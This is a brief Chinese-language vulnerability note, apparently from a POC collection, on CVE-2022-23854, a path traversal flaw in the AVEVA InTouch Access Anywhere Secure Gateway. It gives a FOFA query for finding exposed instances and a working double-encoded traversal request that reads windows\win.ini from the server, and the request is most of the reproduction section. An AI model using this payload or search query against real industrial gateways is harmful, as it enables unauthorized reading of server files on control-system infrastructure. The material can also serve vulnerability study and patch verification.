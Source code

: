 # AVEVA InTouch安全网关 AccessAnywhere 任意文件读取漏洞 CVE-2022-23854

## 漏洞描述

AVEVA InTouch Access Anywhere Secure Gateway 2020 R2及以前的版本存在路径遍历漏洞，未授权的攻击者可利用该漏洞获取服务器敏感信息。

## 漏洞影响

```
AVEVA InTouch安全网关
```

## FOFA

```
body="InTouch Access Anywhere"
```

## 漏洞复现

登录页面

![image-20221017170909794](./images/202210171709863.png)

验证POC

```
/AccessAnywhere/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255cwindows%255cwin.ini 
```

![image-20221017170935596](./images/202210171709651.png)
